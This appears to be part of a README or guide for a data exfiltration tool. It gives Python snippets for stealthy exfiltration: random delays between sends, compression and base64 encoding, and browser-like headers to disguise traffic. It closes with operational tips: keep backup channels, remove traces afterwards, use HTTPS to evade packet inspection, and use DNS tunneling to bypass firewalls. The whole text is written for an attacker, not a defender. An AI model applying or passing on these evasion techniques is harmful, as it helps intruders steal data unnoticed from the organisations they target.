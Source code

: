 ## Stealth Techniques

### 1. **Rate Limiting**
```python
# Add delays between exfiltration attempts
import time

for chunk in data_chunks:
    exfil.exfiltrate_data(chunk)
    time.sleep(random.uniform(1, 5))  # Random delay
```

### 2. **Data Encoding**
```python
# Use multiple encoding layers
import base64, zlib

# Compress and encode data
compressed = zlib.compress(data)
encoded = base64.b64encode(compressed)
```

### 3. **Traffic Blending**
```python
# Make exfiltration look like normal traffic
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'keep-alive'
}
```

## Best Practices

1. **Use Multiple Channels**: Always have backup channels
2. **Encrypt Data**: Use encryption for sensitive data
3. **Rate Limit**: Don't overwhelm the network
4. **Error Handling**: Handle failures gracefully
5. **Clean Up**: Remove traces after exfiltration
6. **Monitor**: Check for detection mechanisms

## Detection Avoidance

- Use legitimate-looking User-Agent strings
- Vary timing between requests
- Use HTTPS to avoid packet inspection
- Keep payload sizes small
- Use DNS tunneling for firewall bypass
- Implement retry logic with exponential backoff

